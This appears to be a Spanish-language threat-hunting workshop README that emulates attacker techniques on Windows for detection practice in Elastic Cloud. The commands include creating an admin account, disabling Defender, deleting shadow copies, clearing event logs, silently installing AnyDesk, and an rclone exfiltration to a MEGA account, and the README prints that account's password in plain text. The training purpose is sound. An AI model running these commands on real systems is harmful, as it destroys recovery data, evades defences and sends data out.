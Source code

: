 # Workshop-CERT-2024
Que tal Hunter,

Bienvenidos a este Workshop de nuestra Cumbre 2024.

Este repositorio contiene un conjunto de Scripts para Emular ataques avanzados operados por Humano. Además pueden encontrar todos los comandos en un solo archivo y un archivo más con los filtros para hacer hunting en Elastic Cloud.

Espero lo disfrute.

Marvin Amador
Threat Hunter

---

<center>

# **HACKING PLAYBOOK**
> Guia Para Hackers:

|Elaborado por|
|-|
|Marvin Amador|
|Threat Hunter|
 </center>

## Manual de Ataques:

- [x] Generar Rastros de un Ataque
	- [ ] EXECUTION
	- [ ] PERSISTENCE
	- [ ] PRIVILEGE ESCALATION
	- [ ] DEFENSE EVASION
	- [ ] DISCOVERY
	- [ ] COMMAND AND CONTROL
- [x] Capture The Flags
	- [ ] EXFILTRATION

## Objetivo

|Ejecutar comandos comunmente utilizados por atacantes en cada fase de la Matriz de Mitre Att&ck, esto le  permitirá al Hunter saber que es lo que debe Cazar. Por último, hay un CTF diseñado para que el Hunter comprenda como se vería un evento de Exfiltración de Datos. 
|-|

==**NOTA IMPORTANTE**:==
- La ejecución de los comandos se realiza desde el CMD. Únicaente algunos se realizan desde PowerShell y en cada sección está descrito. 
- Se recomienda que el Hunter ejecute todos los comandos de una sola vez y luego inicie la cacería en Elastic Cloud. Duración 10 min 
- Dejar para el final el CTF. 

# **LABORATORIO**

1. **EXECUTION**
- Técnica: **Scheduled Task (T1053)**
Este comando crea una tarea programada llamada "**Workshop Task 2024**" que ejecutará la calculadora de Windows diariamente a las 10:20 AM.
```
schtasks /create /tn "Workshop Task 2024" /tr "C:\Windows\System32\calc.exe" /sc daily /st 10:20
```

2. **PERSISTENCE**
- Técnica: **Registry Run Keys / Start Folder (T1060)**
Este comando agrega una entrada al Registro que ejecutará la calculadora de Windows al inicio del usuario actual.
```
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "Workshop registry 2024" /t REG_SZ /d "C:\Windows\System32\calc.exe" /f
```

3. **PRIVILEGE ESCALATION**
Enumerar los miembros del grupo de administradores local es relevante para la fase de elevación de privilegios, ya que proporciona información sobre cuentas con privilegios elevados.
```
net user certuser Sisap2024 /add
net localgroup administrators certuser /add
```

4. **DEFENSE EVASION**
- Técnica: **Disable or Modify Tools (T1562.001)**
==Desactivacion de AV==
```
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName,productState /format:list
```
==**Ejecutar desde PowerShell:**==
```
Set-MpPreference -DisableRealtimeMonitoring $true
```
```
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
```

- Técnica: **Data Destruction (T1485)**
```
WMIC.exe shadowcopy delete /nointeractive
vssadmin.exe delete shadows /all /quiet
```

- Técnica: **Clear Windows Event Logs (T1070.001)**
```
wevtutil cl system
wevtutil clear-log application
wevtutil clear-log security
wevtutil clear-log setup

```

5. **DISCOVERY**
Estos comandos proporcionan información sobre usuarios, grupos, unidades compartidas y controladores de dominio, y podrían ser parte de la fase de descubrimiento, donde un atacante busca comprender la topología del sistema y sus privilegios.
- Técnica: **System Information Discovery (T1082)**
Estos comandos se utilizan para obtener información sobre la identidad del usuario y los grupos a los que pertenece. Utiliza WMIC para obtener información sobre las unidades lógicas en el sistema
```
whoami
whoami /groups
systeminfo
wmic logicaldisk get name
```

- Técnica: **System Network Configuration Discovery (T1016)**
Estos comandos se utilizan para obtener información sobre la configuración de red en un sistema Windows.
```
ipconfig
arp -a
```
- Técnica: **Permission Groups Discovery (T1069)**
Enumera los miembros del grupo local de administradores, proporcionando información sobre cuentas con privilegios elevados.
```
net localgroup administrators
```

Enumera los miembros de grupos importantes como "Domain Admins" y "Enterprise Admins".
```
net group /domain "Domain Admins"
net group "Enterprise Admins" /domain
```
- Técnica: **Active Directory Reconnaissance (T1018)**
Estos comandos se utilizan para obtener información sobre el entorno de Active Directory, incluyendo controladores de dominio y confianzas de dominio.
```
nltest /dclist:windomain.local
nltest /domain_trusts
```
- Técnica: **Network Share Discovery (T1135)**
Muestra información sobre las comparticiones de red en el sistema.
```
net share
```

- Técnica: **System Owner/User Discovery (T1033)**
Muestra una lista de unidades disponibles en el sistema.
```
fsutil fsinfo drives
```

5. **COMMAND AND CONTROL**
- Técnica: **Remote Access Software (T1219)**
Algunos atacantes utilizan herramientas de supervisión y administración remotas (RMM) como Anydesk, Atera, Splashtop, TeamViewer, ScreenConnect, LogMeIn, entre otras, para controlar remotamente a su víctima.
==**Ejecutar desde PowerShell:**==
```
# Descargar el instalador de AnyDesk
Invoke-WebRequest -Uri 'https://download.anydesk.com/AnyDesk.exe' -OutFile 'C:\Windows\Temp\AnyDesk.exe'

# Instalar AnyDesk silenciosamente
Start-Process -Wait -FilePath 'C:\Windows\Temp\AnyDesk.exe' -ArgumentList '/S'
```

# **CAPTURE DE FLAG**

---
El Desafio Final del Workshop es aprender como los Adversarios roban información utilizando la herramienta **rclone**. Para esto, el hunter deberá realizar 2 actividades:
- Utilizar Rclone para exfiltrar un archivo de texto con el nombre del hunter
- Demostrar el evento en la consola de Elastic Cloud
---
## 6. **EXFILTRATION** 

- Técnica: **Remote Access Software (T1219)**
Algunos atacantes utilizan herramientas de supervisión y administración remotas (RMM) como Anydesk, Atera, Splashtop, TeamViewer, ScreenConnect, LogMeIn, entre otras, para controlar remotamente a su víctima.

==**Ejecutar desde PowerShell:**==
```
# Descargar el instalador de AnyDesk y configuralo
Invoke-WebRequest https://downloads.rclone.org/v1.56.0/rclone-v1.56.0-windows-amd64.zip -OutFile 'C:\Windows\Temp\rclone.zip'
Expand-Archive -Path 'C:\Windows\Temp\rclone.zip' -DestinationPath 'C:\Windows\Temp\'
cd C:\Windows\Temp\rclone-v1.56.0-windows-amd64
.\rclone.exe config

# configurando rclon
n
name: cert
storage: mega
user: huntercert01@gmail.com
password: NaQ@YGls9%cUHMGu
n
y
q
# Creemos un archivo para exfiltrar
echo CTF logrado > marvinamador.txt

# Comando para exfiltrar el archivo creado
.\rclone.exe copy "C:\Windows\Temp\rclone-v1.56.0-windows-amd64\marvinamador.txt" cert: -q --ignore-existing --auto-confirm --multi-thread-streams 12 --transfers 3 --bwlimit 5M

```

<center>
HAPPY HUNTING!
</center>


